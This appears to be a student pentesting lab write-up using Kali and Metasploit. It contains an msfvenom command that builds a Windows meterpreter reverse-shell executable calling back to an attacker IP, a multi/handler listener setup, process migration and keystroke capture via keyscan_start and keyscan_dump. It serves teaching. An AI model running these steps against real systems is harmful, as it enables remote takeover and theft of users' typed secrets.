# Metasploit-for-reconnaissance
# Metasploit
Metasploit for reconnaissance in pentesting

# AIM:

To get introduced to Metasploit Framework and to  perform reconnaissance  in pentesting .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

## Find the attackers ip address using ifconfig

## OUTPUT:



## Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:



## Copy the fun.exe into the apache /var/www/html folder

## OUTPUT:


## Start apache server

sudo systemctl apache2 start

## OUTPUT:

## Check the status of apache2

## OUTPUT:


## Invoke msfconsole:

## OUTPUT:


## Type help

## OUTPUT:

## Starting a command and control Server
use multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

## OUTPUT:



## Use 'exploit' command:

## OUTPUT:



## Use 'ps' command:

## OUTPUT:





## migrate -N explorer.exe :

## OUTPUT:

## netstat :

## OUTPUT:



## keyscan_start :

## OUTPUT:


 
## WINDOWS NOTEPAD SCREENSHOT:

## keyscan_dump :

## OUTPUT:



## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
